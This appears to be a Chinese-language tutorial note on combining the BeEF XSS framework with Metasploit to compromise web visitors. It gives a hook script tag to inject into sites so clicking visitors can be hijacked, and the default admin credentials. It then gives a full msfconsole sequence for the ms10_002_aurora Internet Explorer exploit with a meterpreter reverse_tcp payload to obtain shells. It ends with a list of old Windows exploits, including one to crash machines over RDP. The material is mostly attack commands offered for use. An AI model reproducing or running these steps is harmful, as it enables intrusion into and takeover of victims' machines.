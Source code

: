 # beef-xss
## XSS反弹
`<script> alert("hello XSS")</script>` 
## beef-xss 和 msf框架 组合
### 环境要求：
一台kali: 192.168.200.1
### 劫持
运行beef \
`cd /use/share/beef-xss` \
`./beef` \
 \
会出现一个攻击地址和一个管理地址 \
<pre>
192.168.200.1:3000/hoos.js                                        /*攻击地址*/
<script>src="192.168.200.1:3000/hoos.js"</script>             /*上传这个，有人点击，你就可以通过beef管理进行劫持*/
192.168.200.1:3000/ui/panwl                                   /*管理地址，账号密码都是beef*/
</pre>
里面有一个是redirect选项是网站劫持，这个配合msf IE漏洞，很好用
### 漏洞利用
<pre>
msfconsole                               /*运行msfconsole*/ 
use windows/browser                    /*ms10_002_aurora /使用模块*/ 
set PAYLOAD windows                 /*meterpreter/reverse_tcp/设置攻击载荷*/ 
show options                              /*显示设置参数*/ 
set SRVHOST 192.168.200.1               /*制作的网站地址*/ 
set SRVPORT 7777                        /*制作的连接的端口*/ 
set URIPATH /                         /*运行的环境目录*/ 
set LHOST 192.168.200.1              /*侦听的地址*/ 
set LPORT 4444                        /*映射到的地址*/ 
run                                  /*制作*/
</pre>
将生产的网址通过劫持网站访问，就可以拿到meterpreter,即拿到shell
### IE漏洞
ms10_018 \
ms10_046 \
ms12_004 \
ms08_067 /比较老的入侵漏洞 \
ms12_020 /通过3389，搞蓝屏 
